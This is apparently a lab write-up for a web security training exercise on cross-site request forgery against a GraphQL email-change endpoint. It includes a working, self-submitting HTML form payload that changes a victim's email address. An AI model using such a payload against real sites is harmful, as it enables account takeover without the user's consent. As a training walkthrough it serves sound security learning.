




# Lab: Performing CSRF exploits over GraphQL

> Lab Objective: craft some HTML that uses a CSRF attack to change the viewer's email address, then upload it to your exploit server.

- Login using provided credentials `wiener:peter`.

- Change your email, and inspect the Email Change Functionality Request made to change your request.
  

- You'll notice that there's no Anti-CSRF Protection:

  - Doesn't check on the `Referer` or the `Origin` header.
  - There's no CSRF Token sent via the Email Change Form.

- Also you'll notice that you can change the Content-Type header to `application/x-www-form-urlencoded`, and treat the GraphQl Query as a normal key-value pair for a POST Request.
  

- Try this payload which changes the email to `hacker@gmail.com`:

```html
<html>
  <body>
    <form
      action="https://0a71005903fa0d0e80903f3e00d80026.web-security-academy.net/graphql/v1"
      method="POST"
    >
      <input
        type="hidden"
        name="query"
        value='mutation&#32;changeEmail&#123;&#32;changeEmail&#40;input&#58;&#32;&#123;email&#58;"hacker&#64;gmail&#46;com"&#125;&#41;&#32;&#123;&#32;email&#32;&#125;&#32;&#125;'
      />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState("", "", "/");
      document.forms[0].submit();
    </script>
  </body>
</html>
```

- When you view the exploit, you'll notice that it has succeeded.
  

- Therefore, just slightly change the email before delivering it to the victim, and deliver it to the victim normally, and the lab is solved.
  

---
